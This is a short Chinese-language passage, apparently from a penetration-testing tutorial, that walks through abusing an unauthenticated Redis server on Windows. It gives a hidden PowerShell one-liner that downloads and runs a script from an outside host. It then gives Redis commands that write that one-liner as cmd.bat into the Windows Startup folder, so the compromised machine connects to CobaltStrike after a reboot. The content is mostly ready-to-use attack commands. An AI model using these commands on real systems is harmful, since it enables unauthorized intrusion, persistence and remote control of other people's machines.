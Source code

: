 ![](images/redis-pwn-6.png)

生成 Powershell 语句

```bash
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))"
```

执行Redis命令写入语句

```bash
192.168.0.123:6379> config set dir "C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
OK
192.168.0.123:6379> config set dbfilename cmd.bat
OK
192.168.0.123:6379> set x "\r\n\r\npowershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.0.126:6666/a'))\"\r\n\r\n"
OK
192.168.0.123:6379> save
OK
```

当主机重启时就会执行命令上线 CobaltStrike
